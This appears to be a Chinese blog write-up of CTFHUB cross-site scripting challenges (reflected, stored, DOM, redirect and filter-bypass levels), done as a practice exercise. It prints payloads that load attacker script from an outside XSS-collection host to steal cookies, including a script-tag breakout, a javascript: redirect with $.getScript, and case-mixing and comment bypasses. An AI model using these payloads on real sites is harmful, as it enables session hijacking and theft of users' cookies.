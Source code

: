 ```yaml
---
title: Write up CTFHUB XSS
date: 2025-08-25 21:36:45
tags:
    - CTF
    - Web安全
    - Writeup
    - ctfhub
    - xss
categories:
    - CTF
    - Web
    - Writeup
---
```


# 前言

跨站脚本（Cross-Site Scripting，XSS）是一种经常出现在 WEB 应用程序中的计算机安全漏洞，是由于 WEB 应用程序对用户的输入过滤不足而产生的。攻击者利用网站漏洞把恶意的脚本代码注入到网页中，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取 Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。

这两天在 CTFHUB 练习了一下 XSS 相关的题。

![image.png](https://s2.loli.net/2025/08/25/G6NyFRjczC2Q3ok.png)

# 准备
XSS 主要分为 **反射型 XSS** 、**存储型 XSS** 和 **DOM XSS** ，大部分 CTF XSS 最终目的都是获取 Cookie ，也就是需要一个服务端接收脚本发送过来的数据。我们可以借助一些 XSS 平台来实现信息接收，也可以自己实现一个服务暴露到公网中。

我这里使用 XSS 平台来接收数据，注册及设置过程不过多赘述，平台地址：https://xssjs.com/

在 XSS 平台设置完项目后，即可得到注入的脚本代码，可以看到代码就是会下载并执行 XSS 平台上返回的 JavaScript 代码，那里面的才是真正的恶意代码。

```
<sCRiPt sRC=//ujs.ci/2li></sCrIpT>  // https://ujs.ci/2li 里面有恶意代码
```

![2.png](https://s2.loli.net/2025/08/25/ADTnZ9BRkfjdsIQ.png)

# 做题

## 反射型 XSS

一打开链接，就能看到两个框。一开始我是一脸懵逼的，看了一下网页代码以及回想了一下 XSS 原理，才大概知道这两个框是什么意思。

第一个框是真实场景中用户的输入框，我们需要通过这个输入来注入恶意脚本；而第二个框则是为 CTF 服务的，CTF 平台后台会有机器人自动请求第二个输入框中的链接，以模仿真实用户的请求。

而我们要做的，就是先通过第一个输入来注入恶意脚本，随后在第二个框输入被注入 XSS 攻击的网站链接，以窃取 CTF 平台后台机器人的 Cookie。

![1.png](https://s2.loli.net/2025/08/25/x8y7dG6b5lRUgKC.png)

随便在第一个框中做了一些注入，分析 HTML 源码发现没做任何过滤，那就直接注入我们的代码吧。

![3.png](https://s2.loli.net/2025/08/25/zpDfrniK6OCJbSY.png)
![4.png](https://s2.loli.net/2025/08/25/VWPcxndMjOIfBeT.png)

这很明显是个反射型 XSS ，直接回显 Get 参数里的 name 参数值，把这个链接复制到第二个框中，让机器人请求。

![5.png](https://s2.loli.net/2025/08/25/uvyoR8DnilaOkzg.png)

来到 XSS 平台的项目后台，可以看到窃取的信息，flag 就在 Cookie 里面。

![6.png](https://s2.loli.net/2025/08/25/l6ocYap1mFEd3Oy.png)

## 存储型 XSS
解题步骤和上一题完全一样，这里就不过多赘述了。

不过需要理解存储型 XSS 和反射型 XSS 的区别：

反射型 XSS 的恶意代码一般出现在网站搜索栏、用户登录口的等地方，恶意代码通常在 URL 中，像上一题的 Get 参数里的 name 参数就是如此，当受害者点击这些专门设计的链接时才会中招。

而存储型 XSS 不需要用户单击特定 URL 就能执行跨站脚本，攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码，存储型 XSS 一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。

## DOM XSS
DOM XSS 是基于 DOM 文档对象模型的一种漏洞，JS 可以通过 DOM 动态检查、修改页面内容。如果用户在客户端输入的数据中注入恶意脚本，而脚本没有被过滤，那就可能受到 DOM XSS 攻击。

查看代码可以清楚地看到输入的内容是没有经过任何过滤的，会直接插入到页面中。

![1.png](https://s2.loli.net/2025/08/25/3vwxNIQe59nBqZL.png)

![2.png](https://s2.loli.net/2025/08/25/oMjCD5ORdyL8HVX.png)

但是这次不能直接输入 &#x3C;&#x73;&#x43;&#x52;&#x69;&#x50;&#x74;&#x20;&#x73;&#x52;&#x43;&#x3D;&#x2F;&#x2F;&#x75;&#x6A;&#x73;&#x2E;&#x63;&#x69;&#x2F;&#x32;&#x6C;&#x69;&#x3E;&#x3C;&#x2F;&#x73;&#x43;&#x72;&#x49;&#x70;&#x54;&#x3E; ，直接输入的效果如下。可以看到输入的内容中含有 script 结束标签，导致原本的标签被提前结束了，最终修改页面的脚本执行失败，所以得考虑怎么正确闭合修改页面脚本的 JS 标签才行。

![image.png](https://s2.loli.net/2025/08/25/tZhc5QbGFzXP7ep.png)
![image.png](https://s2.loli.net/2025/08/25/Tsa3NhyVUXEwIqF.png)

经过思考，输入的内容如下：
```
';</script><sCRiPt sRC=//ujs.ci/2li></sCrIpT>
```

最终效果如下，先用 &#x27;&#x3B;&#x3C;&#x2F;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E; 把前面那段脚本的标签闭合，这样后面的 &#x3C;&#x73;&#x43;&#x52;&#x69;&#x50;&#x74;&#x20;&#x73;&#x52;&#x43;&#x3D;&#x2F;&#x2F;&#x75;&#x6A;&#x73;&#x2E;&#x63;&#x69;&#x2F;&#x32;&#x6C;&#x69;&#x3E;&#x3C;&#x2F;&#x73;&#x43;&#x72;&#x49;&#x70;&#x54;&#x3E; 就能正常注入到 HTML 中了。

![image.png](https://s2.loli.net/2025/08/25/SZpr4iyjUhAc52l.png)


把链接输入到第二个框中，查看 XSS 平台后台，从 Cookie 中拿到 flag ！

![image.png](https://s2.loli.net/2025/08/25/SyzjU1q3faMVsXA.png)

## DOM 跳转

这道题的第一个输入框倒是被锁定了，不允许输入。

![1.png](https://s2.loli.net/2025/08/25/KSArijzC2D97Rwb.png)

从网页代码可以看出来，这段脚本会把 GET 参数里的 jumpto 参数值提取出来，使用 location.href 跳转页面（重定向）。

![2.png](https://s2.loli.net/2025/08/25/gpksGzIy5cNhaf7.png)

那这里可以使用 javascript: 协议配合 jQuery 的 $.getScript() 来动态加载、执行我的恶意脚本代码。
> 在浏览器地址栏或者某些跳转逻辑中，如果 URL 以 javascript:代码开头，浏览器就会把后面的内容当作 JavaScript 来执行。

> $.getScript(url, callback) 是 jQuery 提供的 API，用于从指定 URL 动态加载并执行一段 JS 文件。

直接构造链接输入到第二个框中

```
?jumpti=javascript:$.getScript("恶意脚本链接"))
```

![3.png](https://s2.loli.net/2025/08/25/PDt5siSZjIf2xJu.png)

来到 XSS 平台后台，拿到 flag ！

![image.png](https://s2.loli.net/2025/08/25/nMUk1JmTc64vrHR.png)

## 过滤空格

这道题会把空格过滤掉，我输入 &#x3C;&#x73;&#x43;&#x52;&#x69;&#x50;&#x74;&#x20;&#x73;&#x52;&#x43;&#x3D;&#x2F;&#x2F;&#x75;&#x6A;&#x73;&#x2E;&#x63;&#x69;&#x2F;&#x32;&#x6C;&#x69;&#x3E;&#x3C;&#x2F;&#x73;&#x43;&#x72;&#x49;&#x70;&#x54;&#x3E; 后变成了
&#x3C;&#x73;&#x43;&#x52;&#x69;&#x50;&#x74;&#x73;&#x52;&#x43;&#x3D;&#x2F;&#x2F;&#x75;&#x6A;&#x73;&#x2E;&#x63;&#x69;&#x2F;&#x32;&#x6C;&#x69;&#x3E;&#x3C;&#x2F;&#x73;&#x43;&#x72;&#x49;&#x70;&#x54;&#x3E; 

![2.png](https://s2.loli.net/2025/08/25/BGS3JUYQb16PHir.png)

可以用注释 /**/ 绕过。

![2.png](https://s2.loli.net/2025/08/25/BGS3JUYQb16PHir.png)

## 过滤关键词

这道题更是把 script 直接过滤掉了

![1.png](https://s2.loli.net/2025/08/25/KCUAboxYHRBtg63.png)

尝试用大小写混淆的方式绕过（其实我一开始就是用大小写混淆）

![2.png](https://s2.loli.net/2025/08/25/KixAnIZ4N7GHBOL.png)

# 感想
昨天我使用 http://test.xss.tv/ 简单练习了一下 XSS ，但是 XSS 最终目的是窃取用户数据，不是简单的 alert('xxx') ，这次结合 XSS 平台了解了通过 XSS 窃取用户数据的完整流程，这不禁让我想起十几二十年前 QQ 空间、QQ 邮箱的 XSS 漏洞，原来是这么一回事啊！怪不得以前 QQ 空间老是中招呢！

![image.png](https://s2.loli.net/2025/08/25/jMhbsr2uED7dZ1w.png)


